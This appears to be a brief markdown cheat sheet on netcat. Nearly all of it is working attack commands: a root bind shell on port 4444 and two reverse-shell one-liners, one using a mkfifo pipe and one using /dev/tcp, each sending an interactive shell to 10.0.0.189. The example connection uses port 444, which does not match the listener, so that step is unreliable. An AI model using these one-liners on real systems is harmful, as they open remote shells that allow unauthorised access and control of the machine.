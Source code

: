 # Netcat

Hand over a shell:
```
root$ nc -lvp 4444 -e /bin/bash
```

Now connect to it from another user
```
otheruser$ nc 192.168.1.101 444
whoami
root
```

The same thing can be done in reverse. The one listening is giving us the shell.

Additional Tricks

nc reverse shell without -e:
```
rm /tmp/pipe; mkfifo /tmp/pipe; cat /tmp/pipe|/bin/sh -i 2>&1|nc 10.0.0.189 1234 > /tmp/pipe
```
/dev/tcp reverse shell:
```
bash -i >& /dev/tcp/10.0.0.189/80 0>&1
```
